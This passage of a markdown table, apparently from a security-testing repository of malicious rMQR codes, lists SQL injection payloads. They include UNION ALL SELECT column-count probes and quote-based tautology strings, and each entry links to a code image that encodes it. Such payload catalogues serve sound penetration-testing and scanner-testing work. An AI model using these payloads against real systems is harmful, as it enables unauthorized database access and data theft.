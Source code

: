 | `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/494.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/495.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/496.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/497.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/498.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/499.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/500.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/501.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/502.png) |
| `UNION ALL SELECT 'INJ'\|\|'ECT'\|\|'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/503.png) |
| `'-'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/504.png) |
| `' '` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/505.png) |
| `'&'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/506.png) |
| `'^'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/507.png) |
| `'*'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/508.png) |
| `' or ''-'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/509.png) |
| `' or '' '` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/510.png) |
| `' or ''&'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/511.png) |
| `' or ''^'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/512.png) |
| `' or ''*'` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/513.png) |
| `"-"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/514.png) |
| `" "` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/515.png) |
| `"&"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/516.png) |
| `"^"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/517.png) |
| `"*"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/518.png) |
| `" or ""-"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/519.png) |
| `" or "" "` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/520.png) |
| `" or ""&"` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/521.png) |
